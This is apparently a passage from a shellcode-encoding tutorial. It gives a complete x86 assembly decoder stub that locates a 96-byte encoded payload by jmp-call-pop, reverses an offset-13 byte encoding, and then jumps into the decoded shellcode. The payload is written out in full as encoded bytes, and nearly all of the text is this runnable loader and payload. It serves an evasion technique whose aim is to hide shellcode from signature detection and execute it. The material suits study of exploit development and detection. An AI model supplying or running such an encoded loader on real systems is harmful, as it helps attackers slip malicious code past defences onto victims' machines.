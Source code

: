 # Decoder

We'll take our encoded shellcode (in assembly format) and place it in the following assembly code under EncodedShellcode.

This assembly code will load the shellcode into memory, pop it into an address and run a loop for 96 cycles which is the length of our shellcode.

Once it's finished looping it'll execute "jmp short EncodedShellcode" which is now our decoded shellcode!

```
global _start

section .text

_start:
	jmp short call_shellcode

decoder:
	pop esi		; pop address of shellcode into ESI
	xor ecx,ecx	; prepare ecx loop register
	mov cl,96	; counter = 96 (length of the shellcode)

decode:
	cmp byte [esi],13 ; compare if is possible to substract value 13
	jl max_reached ; jump if less -> max_reached
	sub byte [esi], 13 ; substract value 13
	jmp short LoopOrExecute
 
max_reached:
	xor edx, edx ; zeroize EDX register
	mov dl, 0xd ; set 13 as low byte of EDX
	sub dl, byte [esi] ; 13 - byte value of the shellcode
	xor ebx, ebx ; zeroize EBX register
	mov bl, 0xff ; 0xff = 255 
	inc ebx ; = 256
	sub bx, dx ; 256 - (13 - byte value of the shellcode)
	mov byte [esi], bl ; move bl into ESI
 
LoopOrExecute:
	inc esi ; move to next byte
	loop decode ; loop "decode" if ECX > 0
	jmp short EncodedShellcode	; when ECX = 0, Execute our now decoded shellcode

call_shellcode:
	call decoder ; push address of EncodedShellcode(0x3e,0xcd,0xbd,etc,etc*91) onto stack and move EIP to decoder.
	EncodedShellcode: db 0x3e,0xcd,0xbd,0x73,0x3e,0xe8,0xc0,0x0e,0x3e,0xd6,0x5e,0x60,0x77,0x0f,0x96,0xee,0xda,0x8d,0x3e,0x0c,0x96,0xd4,0x3e,0xcd,0xbd,0x73,0x3e,0xd6,0xc6,0x8d,0x0e,0x0e,0x0f,0x8e,0xf6,0x0e,0x0e,0x0e,0x0e,0x5e,0x73,0x75,0x1e,0x69,0x50,0x73,0x60,0x96,0xee,0x77,0x1d,0x5e,0x64,0x96,0xee,0x50,0xda,0x8d,0x3e,0xd6,0xbe,0x0f,0x3e,0xcd,0xbd,0x4c,0xda,0x8d,0x56,0x86,0x06,0x3e,0xcd,0xbd,0x18,0x3e,0xe8,0x60,0x75,0x3c,0x3c,0x80,0x75,0x75,0x3c,0x6f,0x76,0x7b,0x96,0xf0,0x3e,0xd6,0x3e,0xdf,0xda,0x8d
```
